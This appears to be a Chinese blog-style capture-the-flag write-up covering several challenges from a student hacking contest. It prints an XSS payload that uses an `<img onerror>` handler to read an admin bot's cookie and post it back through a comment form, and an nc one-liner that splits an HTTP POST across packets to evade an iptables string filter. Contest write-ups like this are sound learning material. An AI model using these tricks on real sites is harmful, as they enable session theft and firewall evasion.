 <i>毕竟正常人怎么可能留 `<img src=a onerror="alert(1)">` 这种评论嘛！</i>

我是谁？我在哪？要干嘛？然后发现`"+114514+"`成功了，难绷。

连函数调用需要的括号都被过滤了，25字符什么都做不到。就在为`\74"+location["hash"]+"\76`以壹字节略微超出限制，还无法注入空格而发愁时，发现了location URL字符串硬塞也能塞进属性里。

那么接下来就是典中典`<img onerror>`了。评论`\74img "+location+"\76`，然后让bot浏览下面的网页。

```javascript
<script>open("http://web/result#/src/onerror=comment[1].value=btoa(document.cookie).slice(0,25),document.forms[0].submit()")</script>
```

想到解法时比赛平台已经关闭了。不过好像虽然比赛平台关闭了，但是202.38.93.111还在。但是我把IP弄丢了。安然入眠。

因为调试时设置了document.cookie，从这题开始，我的浏览器给202.38.93.111发的HTTP请求里就一直带着Cookie: flag=114514的标头，不管哪题都是。

### 完成练习不需要了解任何微积分与符号计算的知识

[只需要fx-991CN X。](微积分计算小练习.pdf)

fx-999CN CW精度更高，不过老机型精度也够用了。新机型连ln都要按SHIFT才能输入未免也太变态了点。

# 第3天

早上实现并提交了微积分计算小练习2.0，同样被URL编码中的加号坑了一把，不过看到答案错误时一下子就发现了，没想到后来官方还专为这个问题补了个提示。

## 异星歧途

<i>这样的爆破题不管在哪个比赛里都是相当炸裂的存在。</i>

玩了一小时，发现题目给出的地图里没有任何东西是见过的，开摆，直接做吧。

（拨动开关）（嘭！）（回到出生点）（保存并退出）（删除存档）（导入地图）（加载）（移动到第三区）（拨动开关）（砰！）

尝试爆破（指枚举第三区的答案），结果还没爆破完就已经推理出来了。

# 第4天

game已经结束了，剩下的全是坐牢。

低带宽星球的容器不知道为什么一直跑不通，直到今天，终于发现是因为糊的运行脚本里`$1`写成了`$0`。

以为seccomp题只要不调用open和openat就行，但不知道为什么老是报operation already in process错，查了一下发现错误码是114。这就很合理了，肯定是自定义错误码，才发现代码里那么大一个系统调用白名单，打扰了，告辞。

## Komm, süsser Flagge / 我的POST & 我的P

<i>如果你不知道`nc`是什么，或者在解上面的题目时遇到了困难，可以参考我们编写的[萌新入门手册：如何使用nc/ncat偷到flag？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/#%E7%A4%BA%E4%BE%8B)</i>

第一小题以为如网上所说是靠iptables的BM算法有漏洞，但顾名思义，iptables只在IP包层面上处理，只要把POST拆开来就行。手头没有任何专业网络工具的我想出了一种天才般的解法：

```sh
(
echo -n 'PO'
sleep .114514
echo 'ST / HTTP/1.1
Host: 114514.com
Content-Length: 15

114514:asdfgh==
'
) | nc 202.38.93.111 18080
```
